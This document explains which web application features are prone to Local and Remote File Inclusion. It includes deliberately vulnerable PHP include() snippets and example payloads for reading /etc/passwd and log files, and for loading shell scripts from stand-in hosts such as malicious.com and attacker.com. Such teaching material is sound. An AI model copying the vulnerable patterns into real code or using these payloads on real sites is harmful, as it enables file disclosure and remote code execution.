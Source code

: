 # Functionalities Prone to LFI and RFI
## Dynamic Page Loading

- Applications that load content dynamically based on user input, such as include() or require() in PHP.
Example:
php
Copy code
<?php
$page = $_GET['page'];
include($page); // Includes user-specified file
?>
Vulnerable URL:
arduino
Copy code
http://example.com/index.php?page=home.php
Theme or Template Loaders

- Websites allowing users to select themes or templates by specifying a file path.
Example:
sql
Copy code
GET /site.php?theme=default
If improperly sanitized, attackers could provide paths to local files (../../config.php) or external URLs (http://malicious.com/shell.php).
Language or Localization Files

- Applications loading different language files based on user preferences.
Example:
php
Copy code
$lang = $_GET['lang'];
include("languages/" . $lang . ".php");
Vulnerable URL:
bash
Copy code
http://example.com/index.php?lang=../../../../etc/passwd
File Management Features

- File upload, download, or display functionalities, where the server dynamically constructs file paths.
Example:
php
Copy code
$file = $_GET['file'];
include("uploads/" . $file);
Vulnerable URL:
bash
Copy code
http://example.com/file.php?file=../../../../../var/log/apache2/access.log
Log Viewing Utilities

- Debugging tools that allow users or admins to view logs dynamically.
If attackers can specify which file to view, they can exploit LFI.
Example:
bash
Copy code
GET /logs.php?file=../../../../etc/passwd
Backup or Configuration Loaders

- Applications that allow dynamic loading of backups or configuration files.
Example:
php
Copy code
$config = $_GET['config'];
include("configs/" . $config);
Custom Plugins or Extensions

- Systems that dynamically load plugins or extensions, often used in CMS platforms like WordPress, Joomla, or Drupal.
Example:
bash
Copy code
GET /load_plugin.php?plugin=../../../../plugin/malicious.php



# Local File Inclusion (LFI):
Dynamic Template Inclusion:

Scenario: A PHP application dynamically includes page templates based on a URL parameter, e.g., https://example.com/?page=home.
Misconfiguration: The application directly includes the parameter value without validation, enabling inclusion of arbitrary files from the server, e.g., page=../../etc/passwd.
Language Selection:

Scenario: A web app includes localization files based on user-selected languages, e.g., https://example.com/?lang=en.
Misconfiguration: Lack of input validation allows attackers to load sensitive files by injecting directory traversal payloads, e.g., lang=../../../../var/log/auth.log.
Profile Picture Inclusion:

Scenario: The app allows users to upload profile pictures and later includes them for rendering on user profiles.
Misconfiguration: An attacker uploads a malicious file and references it via an LFI vulnerability, e.g., https://example.com/profile?pic=../../uploads/malicious.php.


# Remote File Inclusion (RFI):
Dynamic Script Inclusion:

Scenario: A PHP application includes scripts dynamically based on user input, e.g., https://example.com/?module=home.
Misconfiguration: Input is not sanitized, allowing attackers to include external scripts, e.g., module=http://malicious.com/shell.php.
Theme Selection:

Scenario: A CMS allows users to customize themes by loading styles or templates via a URL parameter, e.g., https://example.com/?theme=default.
Misconfiguration: The parameter accepts external URLs, allowing attackers to include malicious remote files, e.g., theme=http://attacker.com/malicious-theme.php.
Configuration Import:

Scenario: An application imports configuration files from a URL provided by the user, e.g., https://example.com/import-config?url=config.xml.
Misconfiguration: The system allows importing remote files without verification, enabling attackers to host malicious configurations or scripts.